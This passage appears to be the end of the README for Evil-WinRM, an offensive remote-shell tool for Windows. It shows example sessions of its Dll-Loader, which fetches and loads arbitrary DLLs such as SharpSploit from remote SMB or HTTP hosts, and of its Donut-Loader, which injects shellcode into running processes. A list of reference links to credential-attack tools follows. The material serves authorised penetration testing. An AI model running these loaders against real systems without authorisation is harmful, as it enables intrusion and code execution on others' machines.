    The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.
```
*Evil-WinRM* PS C:\> Dll-Loader
.SYNOPSIS
    dll loader.
    PowerShell Function: Dll-Loader
    Author: Hector de Armas (3v4Si0N)

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION
    .
.EXAMPLE
    Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
    Dll-Loader -local -path C:\Users\Pepito\Desktop\myDll.dll
    Dll-Loader -http -path http://example.com/myDll.dll

    Description
    -----------
    Function that loads an arbitrary dll

*Evil-WinRM* PS C:\> Dll-Loader -http http://10.10.10.10/SharpSploit.dll
[+] Reading dll by HTTP
[+] Loading dll...
*Evil-WinRM* PS C:\Users\test\Documents> menu

 [... Snip ...]

*Evil-WinRM* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()


Pid          : 0
Ppid         : 0
Name         : Idle
Path         :
SessionID    : 0
Owner        :
Architecture : x64

```
 - Donut-Loader: allows to inject x64 payloads generated with awesome [donut] technique. No need to encode the payload.bin, just generate and inject!

```
*Evil-WinRM* PS C:\> Donut-Loader
.SYNOPSIS
    Donut Loader.
    PowerShell Function: Donut-Loader
    Author: Luis Vacas (CyberVaca)
    Based code: TheWover

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Donut-Loader -process_id 2195 -donutfile /home/cybervaca/donut.bin
    Donut-Loader -process_id (get-process notepad).id -donutfile /home/cybervaca/donut.bin

    Description
    -----------
    Function that loads an arbitrary donut :D
```


[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-winrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-3.6-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "Latest version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-winrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-winrm.svg "Ruby gem"